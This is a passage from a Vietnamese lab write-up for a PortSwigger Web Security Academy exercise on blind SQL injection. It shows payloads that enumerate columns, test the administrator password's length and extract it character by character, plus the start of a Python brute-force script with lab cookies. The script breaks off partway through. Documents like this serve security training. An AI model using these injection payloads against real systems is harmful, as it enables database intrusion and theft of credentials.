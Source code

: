 ```' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name = 'users_jarqmx'```
```

![alt text](./img/lab10-6.png)

==>Xong các bước khảo sát.

- Bước 4: Xác định xem password của ```administrator``` có độ dài bao nhiêu:

```' AND (SELECT username FROM users WHERE username = 'administrator' AND LENGTH(password)>1) = 'administrator'--```

Truy vấn này để xác định xem liệu password của username liệu có >1 hay không

![alt text](./img/lab10-7.png)

  - +Giờ để tự động hóa các tác vụ thì ta sẽ vào Burp Intruder:

![alt text](./img/lab10-8.png)

-Thấy rằng từ giá trị number thứ 20 trở đi là có Length khác rồi ==> Check và thấy được các giá trị đó không có Welcome back

==>Password của username có length = 20.

- Bước 5: Xác định từng từ trong password sau khi đã biết được length của nó:

Sử dụng payload mẫu như sau: ```' AND SUBSTRING((SELECT password FROM username WHERE username = 'administrator'), 1, 1)='a'--```

  - Ta có thể dùng tiếp Burp Intruder để làm điều này nhưng mình muốn làm cách thứ 2 là script.

  - Sử dụng script nhé.


```python
import requests
import string
URL = 'https://0ada00f403343adadd2e69e3004d0079.web-security-academy.net/'
cookies = {
    "session" : "rlO3zHjH3CxuJwQ9UfXFDxROIV0vfgXH",
    "TrackingId" : "yWnpXcNC3MypR9lc"
}
CHARSET = string.ascii_lowercase
tracking_id_original = "yWnpXcNC3MypR9lc"
password = ""
for pos in range(1, 21):
    found = False
    for char in CHARSET:
```